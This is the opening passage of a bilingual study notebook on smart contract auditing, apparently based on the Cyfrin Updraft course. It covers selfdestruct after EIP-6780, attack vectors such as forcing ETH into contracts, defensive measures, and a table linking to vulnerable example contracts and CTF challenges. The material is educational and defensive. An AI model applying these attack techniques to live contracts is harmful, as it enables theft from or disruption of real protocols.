




> **
>
> **注意 / NOTE**: 这是一个用来记录我在智能合约安全中学习和 debug 经验的笔记，仅供参考。  
> This is a note used to record my learning and debugging experience in smart contract security, for reference only.
>
> 📋 **目录导航 / Table of Contents**: 点击右上角的目录图标 (📋) 查看完整目录  
> Click the table of contents icon (📋) in the upper right corner to view the complete directory
>
> Author: YoYiL
>
> Reference: https://github.com/Cyfrin/Updraft


# Table of Contents

- [Table of Contents](#table-of-contents)
- [Dangerous Functions](#dangerous-functions)
  - [selfdestruct()](#selfdestruct)
    - [The Unique Characteristic of Selfdestruct](#the-unique-characteristic-of-selfdestruct)
    - [重大变化：EIP-6780 的影响](#重大变化eip-6780-的影响)
    - [EIP-6780 的核心规则](#eip-6780-的核心规则)
      - [情况1：同一交易中创建和销毁（完全有效）](#情况1同一交易中创建和销毁完全有效)
      - [情况2：不同交易中销毁（功能受限）](#情况2不同交易中销毁功能受限)
    - [当前状态和弃用](#当前状态和弃用)
    - [当前可能的攻击向量](#当前可能的攻击向量)
      - [1. 强制发送以太币攻击](#1-强制发送以太币攻击)
      - [2. 同交易创建-销毁攻击](#2-同交易创建-销毁攻击)
      - [3. 状态不一致攻击](#3-状态不一致攻击)
    - [防护措施](#防护措施)
      - [1. 避免依赖合约销毁](#1-避免依赖合约销毁)
      - [2. 余额检查保护](#2-余额检查保护)
      - [3. 状态管理](#3-状态管理)
      - [4. 访问控制强化](#4-访问控制强化)
- [Attack Vectors](#attack-vectors)
- [Security Review](#security-review)
  - [What is a Smart Contract Audit?](#what-is-a-smart-contract-audit)
    - [The Three Phases of a Security Review](#the-three-phases-of-a-security-review)
    - [Reach Out for a Review](#reach-out-for-a-review)
    - [Initial Report](#initial-report)
    - [Mitigation Phase](#mitigation-phase)
    - [Final Report](#final-report)
    - [Ensuring a Successful Audit](#ensuring-a-successful-audit)
    - [Post Audit](#post-audit)
    - [What an audit *isn't*](#what-an-audit-isnt)
  - [Embedding Security Audits in Development Lifecycle](#embedding-security-audits-in-development-lifecycle)
  - [Rekt Test](#rekt-test)
    - [Audit Readiness](#audit-readiness)
    - [The Rekt Test](#the-rekt-test)
    - [Nascent Audit Readiness Checklist](#nascent-audit-readiness-checklist)
  - [Tools for Security Reviews](#tools-for-security-reviews)
    - [Static Analysis: Debugging Without Execution](#static-analysis-debugging-without-execution)
    - [Fuzz Testing: Randomness Meets Tests](#fuzz-testing-randomness-meets-tests)
    - [Formal Verification: Mathematical Proofs](#formal-verification-mathematical-proofs)
    - [AI Tools: Not Quite There Yet](#ai-tools-not-quite-there-yet)
  - [What If Your Security Audit Fails?](#what-if-your-security-audit-fails)
    - [Redefining the Role of Auditors](#redefining-the-role-of-auditors)
    - [Who Owns the Blame?](#who-owns-the-blame)
    - [The Auditor’s Role in the Wake of a Breach](#the-auditors-role-in-the-wake-of-a-breach)
- [PasswordStore](#passwordstore)
  - [Scoping](#scoping)
    - [Scoping：Etherscan](#scopingetherscan)
    - [Scoping: Audit Details](#scoping-audit-details)
        - [Preparing for the Audit: Onboarding Questions](#preparing-for-the-audit-onboarding-questions)
        - [Scope](#scope)
    - [Scoping: CLOC(*Count Lines of Code*)](#scoping-cloccount-lines-of-code)
      - [The Importance of Knowing Your Codebase Size](#the-importance-of-knowing-your-codebase-size)
  - [The Tincho Auditing Method](#the-tincho-auditing-method)
    - [First Step](#first-step)
    - [Tools and Frameworks](#tools-and-frameworks)
    - [Audit, Review, Audit, Repeat](#audit-review-audit-repeat)
    - [Communication](#communication)
    - [Wrapping it Up-Timeboxing](#wrapping-it-up-timeboxing)
    - [The Audit Report and Follow Up](#the-audit-report-and-follow-up)
    - [Aftermath of a Missed Vulnerability](#aftermath-of-a-missed-vulnerability)
  - [Reconnaissance](#reconnaissance)
    - [Recon: Context](#recon-context)
      - [First Step: Understanding The Codebase](#first-step-understanding-the-codebase)
      - [Scoping Out The Files（Solidity Metrics）](#scoping-out-the-filessolidity-metrics)
    - [Recon: Understanding the Code](#recon-understanding-the-code)
      - [How Tincho Cracked the Code](#how-tincho-cracked-the-code)
      - [Understanding What the Codebase Is Supposed to Do](#understanding-what-the-codebase-is-supposed-to-do)
      - [Scanning the Code from the Top](#scanning-the-code-from-the-top)
      - [Taking Notes](#taking-notes)
      - [Moving Further](#moving-further)
      - [Looking at Functions](#looking-at-functions)
  - [Exploit](#exploit)
    - [Exploit: Accsess Control](#exploit-accsess-control)
      - [The First Vulnerability](#the-first-vulnerability)
      - [The Bug Explained](#the-bug-explained)
    - [Exploit: Public Data](#exploit-public-data)
  - [Protocol Tests](#protocol-tests)
  - [Writing an Amazing Finding(Finding #1)](#writing-an-amazing-findingfinding-1)
    - [Phase #4: Reporting](#phase-4-reporting)
    - [Writing an Amazing Finding: Title](#writing-an-amazing-finding-title)
    - [Writing an Amazing Finding: Description](#writing-an-amazing-finding-description)
    - [Writing an Amazing Finding: Proof of Code](#writing-an-amazing-finding-proof-of-code)
    - [Writing an Amazing Finding: Recommended Mitigation](#writing-an-amazing-finding-recommended-mitigation)
  - [Access Control(Finding #2)](#access-controlfinding-2)
    - [Access Control Writeup](#access-control-writeup)
    - [Missing Access Controls Proof of Code](#missing-access-controls-proof-of-code)
  - [Finding Writeup Docs(Finding #3)](#finding-writeup-docsfinding-3)
  - [Severity Rating](#severity-rating)
      - [How to evaluate a finding severity](#how-to-evaluate-a-finding-severity)
      - [How to evaluate the impact of a finding](#how-to-evaluate-the-impact-of-a-finding)
      - [How to evaluate the likelihood of exploitation of a finding](#how-to-evaluate-the-likelihood-of-exploitation-of-a-finding)
      - [Informational/Non-Crits/Gas Severity](#informationalnon-critsgas-severity)
  - [Generate a PDF audit report](#generate-a-pdf-audit-report)
  - [Isolated Dev Environments](#isolated-dev-environments)
- [Puppy Raffle](#puppy-raffle)
  - [Scoping](#scoping-1)
  - [Tooling](#tooling)
    - [Static Analysis - Boosting Your Auditing Efficiency](#static-analysis---boosting-your-auditing-efficiency)
    - [Slither - A Python-Powered Static Analysis Tool](#slither---a-python-powered-static-analysis-tool)
      - [Running Slither](#running-slither)
    - [Aderyn-A Rust Based Static Analysis Tool](#aderyn-a-rust-based-static-analysis-tool)
      - [Running Aderyn](#running-aderyn)
    - [Solidity Metrics Insights](#solidity-metrics-insights)
    - [Solidity Visual Developer](#solidity-visual-developer)
  - [Recon(Reconnaissance) 1](#reconreconnaissance-1)
    - [Reading Docs](#reading-docs)
    - [Reading the Code](#reading-the-code)
    - [Reading Docs II](#reading-docs-ii)
  - [Exploit 1](#exploit-1)
    - [sc-exploits-minimized](#sc-exploits-minimized)
      - [Remix, CTFs, \& Challenge Examples](#remix-ctfs--challenge-examples)
    - [Denial of Service](#denial-of-service)
  - [DoS](#dos)
    - [Case Study: DoS](#case-study-dos)
      - [Case Study 1: Bridges Exchange](#case-study-1-bridges-exchange)
        - [Attack Mechanics](#attack-mechanics)
        - [Confirming the Attack Vector](#confirming-the-attack-vector)
      - [Case Study 2: Dos Attack in GMX V2](#case-study-2-dos-attack-in-gmx-v2)
        - [Attack Mechanics](#attack-mechanics-1)
        - [Into the Code](#into-the-code)
      - [Wrap Up](#wrap-up)
    - [DoS PoC Puppy Raffle](#dos-poc-puppy-raffle)
      - [Proof of Code](#proof-of-code)
    - [DoS: Reporting](#dos-reporting)
  - [Exploit: Business Logic Edge Case](#exploit-business-logic-edge-case)
  - [Exploit: Reentrancy](#exploit-reentrancy)
  - [Reentrancy: Mitigation](#reentrancy-mitigation)
    - [CEI Pattern](#cei-pattern)
    - [Alternative Mitigation-locking mechanism](#alternative-mitigation-locking-mechanism)
    - [Case Study: The DAO](#case-study-the-dao)
  - [Reentrancy: PoC](#reentrancy-poc)
  - [Recon: Continued](#recon-continued)
  - [Exploit: Weak Randomness](#exploit-weak-randomness)
    - [什么是 blockhash？](#什么是-blockhash)
    - [矿工如何操纵这些数据源？](#矿工如何操纵这些数据源)
      - [1. block.timestamp（区块时间戳）](#1-blocktimestamp区块时间戳)
      - [2. now（当前时间，已废弃）](#2-now当前时间已废弃)
      - [3. blockhash（区块哈希）](#3-blockhash区块哈希)
      - [防护措施对比](#防护措施对比)
    - [Remix Examples](#remix-examples)
      - [Wrap Up](#wrap-up-1)
  - [Weak Randomness: Multiple Issues](#weak-randomness-multiple-issues)
    - [block.timestamp](#blocktimestamp)
    - [block.prevrandao](#blockprevrandao)
    - [msg.sender](#msgsender)
  - [Case Study: Weak Randomness](#case-study-weak-randomness)
    - [Intro to Meebits and Andy Li](#intro-to-meebits-and-andy-li)
    - [Case Study: Meebits - Insecure Randomness](#case-study-meebits---insecure-randomness)
    - [How the Attack Happened](#how-the-attack-happened)
  - [Weak Randomness: Mitigation](#weak-randomness-mitigation)
  - [Exploit: Integer Overflow](#exploit-integer-overflow)
  - [Integer Overflow: Mitigation](#integer-overflow-mitigation)
  - [Exploit: Unsafe Casting](#exploit-unsafe-casting)
    - [Unsafe Casting Breakdown](#unsafe-casting-breakdown)
  - [Recon II](#recon-ii)
    - [Risks in withdrawFees](#risks-in-withdrawfees)
  - [Exploit: Mishandling Of ETH](#exploit-mishandling-of-eth)
    - [**No Receive, No Fallback, No Problem.**](#no-receive-no-fallback-no-problem)
    - [Mishandling of ETH: Minimized](#mishandling-of-eth-minimized)
- [TSwap](#tswap)
- [Thunder Loan](#thunder-loan)
- [Boss Bridge](#boss-bridge)
- [MEV \& Governance](#mev--governance)


# Dangerous Functions

## selfdestruct()

### The Unique Characteristic of Selfdestruct

Why `selfdestruct` stands out lies in its exceptional behavior once a contract gets destroyed. Any Ethereum (or ETH) residing within the deleted contract gets automatically ‘pushed’ or ‘forced’ into any address that you specify.

Under normal circumstances a contract that **doesn't contain a receive or fallback function** (or some other payable function capable of receiving funds) cannot have ETH sent to it.

Only through the use of `selfdestruct` can you be permitted to push any Ethereum into such a contract.

So if ever you’re hunting for an exploit, or you have identified an attack where you need to force ETH into a contract, `selfdestruct` will be your instrument of choice.

**`SELFDESTRUCT` 是唯一可以绕过 `receive` 和 `fallback` 函数限制的方式**，它可以强制向任何合约发送以太币，无论目标合约是否有接收函数。此外，**SELFDESTRUCT 只是单纯地转移余额，不会触发目标合约的任何函数！**

### 重大变化：EIP-6780 的影响

**从 Cancun 硬分叉开始，底层操作码不再删除代码和数据** 。EIP-6780 显著削减了 SELFDESTRUCT 操作码的功能 。

**Ethereum Dencun 升级引入的 EIP-6780 更新了 selfdestruct 操作码，停用了合约的销毁功能** 。这意味着：

- 合约代码不再被实际删除
- 合约存储不再被清除
- 只有余额转移功能保留

### EIP-6780 的核心规则

**EIP-6780 建议的改变是 SELFDESTRUCT 只能在创建合约的同一交易中被调用** 。这意味着：

#### 情况1：同一交易中创建和销毁（完全有效）

**当 SELFDESTRUCT 在部署合约的同一交易中执行时，这个特定的 EIP 保留了操作码的完整功能** 。

**具体例子：**

```
// 在一个交易中：
// 1. 部署合约A
// 2. 立即调用合约A的selfdestruct()
// 结果：合约完全被销毁，代码和状态都被移除
```

#### 情况2：不同交易中销毁（功能受限）

**Ethereum Dencun 升级引入了 EIP-6780，更新了 selfdestruct 操作码，停用了合约的销毁功能** 。

**具体例子：**

```
// 交易1：部署合约A
// 交易2：调用合约A的selfdestruct()
// 结果：只转移余额，但合约代码和状态保留（变成"僵尸合约"）
```

### 当前状态和弃用

**SELFDESTRUCT 已经被弃用了一段时间** 。在 Solidity 0.8.24 版本中，编译器会对使用 `selfdestruct` 发出弃用警告 。

**"selfdestruct" 已被弃用。注意，从 Cancun 硬分叉开始，底层操作码不再删除代码和数据** 。

### 当前可能的攻击向量

#### 1. 强制发送以太币攻击

**操作码仍然转移以太币** ，这意味着攻击者仍然可以：

- 强制向目标合约发送以太币
- 破坏依赖精确余额计算的合约逻辑
- 绕过某些访问控制机制

#### 2. 同交易创建-销毁攻击

由于 **EIP 在合约创建的同一交易中执行 SELFDESTRUCT 时保留了操作码功能** ，攻击者可以：

- 在同一交易中部署恶意合约并立即销毁
- 利用这种模式进行复杂的攻击
- 规避某些检测机制

#### 3. 状态不一致攻击

**以太坊已在 Cancun 升级中纳入了 EIP-6780，修改了 SELFDESTRUCT 操作码的行为** ，但由于余额转移功能保留，可能导致：

- 合约状态与实际余额不匹配
- 依赖合约"死亡"状态的逻辑被破坏

### 防护措施

#### 1. 避免依赖合约销毁

- 不要假设合约会被完全移除
- 设计时考虑合约可能"僵尸化"

#### 2. 余额检查保护

- 实现robust的余额验证逻辑
- 不依赖精确的余额计算

#### 3. 状态管理

- 使用明确的状态标记而非依赖合约存在性
- 实现暂停/停用机制

#### 4. 访问控制强化

- 不依赖合约不存在作为安全保证
- 实现多层访问控制


# Attack Vectors


<table border="1" style="border-collapse: collapse;">
    <thead>
        <tr>
            <th>Exploit</th>
            <th>Remix 🎧</th>
            <th>Ethernaut 👩🏻‍🚀</th>
            <th>Damn Vulnerable DeFi 💰</th>
            <th>Case Studies 🔎</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Reentrancy</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/reentrancy/Reentrancy.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/10" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Re-entrancy</a>
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/side-entrance/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Side Entrance</a>
            </td>
            <td>
            <a href="https://github.com/pcaversaccio/reentrancy-attacks" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">The Ultimate List </a>
            </td>
        </tr>
        <tr>
            <td>Arithmetic</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/arithmetic/OverflowAndUnderflow.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/5" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Token</a>
            </td>
            <td>
            None
            </td>
            <td>
            Coming Soon...
            </td>
        </tr>
        <tr>
            <td>Denial Of Service (DoS)</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/denial-of-service/DoS.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/20" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Denial</a>
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/unstoppable/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Unstoppable</a>
            </td>
            <td>
            Coming Soon...
            </td>
        </tr>
        <tr>
            <td>Mishandling Of Eth</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/mishandling-of-eth/MishandlingOfEth.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix (Not using push over pull)</a>
            </br>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/mishandling-of-eth/SelfDestructMe.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix (Vulnerable to selfdestruct)</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/9" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">King</a>
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://samczsun.com/two-rights-might-make-a-wrong/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Sushi Swap</a>
            </td>
        </tr>
        <tr>
            <td>Weak Randomness</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/weak-randomness/WeakRandomness.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/3" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Coin Flip</a>
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://forum.openzeppelin.com/t/understanding-the-meebits-exploit/8281" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Meebits</a>
            </td>
        </tr>
        <tr>
            <td>Missing Access Controls</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/missing-access-controls/MissingAccessControls.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/2" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Fallout</a>
            </td>
            <td>
            None
            </td>
            <td>
            Coming Soon...
            </td>
        </tr>
        <tr>
            <td>Centralization</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/centralization/Centralization.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/compromised/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Compromised</a>
            </td>
            <td>
            <a href="https://medium.com/@observer1/uk-court-ordered-oasis-to-exploit-own-security-flaw-to-recover-120k-weth-stolen-in-wormhole-hack-fcadc439ca9d" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Oasis</a>
            And every rug pull ever.
            </td>
        </tr>
        <tr>
            <td>Failure to initialize</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/failure-to-initialize/FailureToInitialize.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/25 " target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Motorbike</a>
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/wallet-mining/ " target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Wallet Mining</a>
            </td>
            <td>
            <a href="https://github.com/openethereum/parity-ethereum/issues/6995 " target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Parity Wallet</a>
            </td>
        </tr>
        <tr>
            <td>Storage Collision</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/storage-collision/StorageCollision.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/16" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Preservation</a>
            </td>
            <td>
            None
            </td>
            <td>
            Coming Soon...
            </td>
        </tr>
        <tr>
            <td>Oracle/Price Manipulation</td>
            <td>
            (Click all of these)
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/oracle-manipulation/OracleManipulation.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">OracleManipulation.sol</a>
            </br>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/oracle-manipulation/BadExchange.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">BadExchange.sol</a>
            </br>
